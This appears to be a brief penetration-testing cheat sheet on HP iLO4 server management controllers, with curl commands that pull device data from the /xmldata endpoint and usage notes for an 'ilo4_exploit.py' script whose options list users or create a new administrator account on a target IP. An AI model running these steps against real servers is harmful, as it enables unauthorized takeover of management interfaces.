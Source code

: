 # hpilo4
# HTTP
curl http://'ip'/xmldata?item=ALL
# HTTPS
curl -k https://'ip'/xmldata?item=ALL

#iLO4 exploit
python ilo4_exploit.py 'ip' 'option'
	
  'ip', help='target IP'
	'-t', action='store_true', default=True, help='Test. Trigger the exploit and list all users'
	'-e', action='store_true', default=False, help='Exploit. Create a new admin user with the credentials specified in -u and -p'
  '-u', help='username of the new admin user'
	'-p', help='password of the new admin user'
